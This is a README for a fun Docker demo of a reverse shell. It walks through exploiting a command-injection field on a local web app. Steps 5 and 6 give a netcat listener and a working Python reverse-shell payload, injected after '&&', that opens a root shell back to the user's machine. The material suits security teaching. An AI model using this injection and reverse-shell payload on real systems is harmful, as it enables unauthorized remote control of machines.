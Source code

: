 ## What is this?
A fun demo of a reverse shell.

## How do I use it?

****Note: If you don't have Docker installed, you can install it [here](https://www.docker.com/).**

1. Install dependancies: ```npm i```

2. Build the docker image: ```npm run docker:build```

3. Run the docker image: ```npm run docker:start```

4. Go [here](http://localhost:3000/) in your web browser.

5. Listen to port 9999 on your computer: ```nc -l 9999```

6. Put this in the input field on the webpage (change where it says "CHANGE ME" to your computer's IP): ```127.0.0.1 && python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("CHANGE ME",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```

7. Press submit in the webpage and check your terminal when you entered the command in step 5. 
    - You can type ```whoami``` to check if it worked. You should see "root"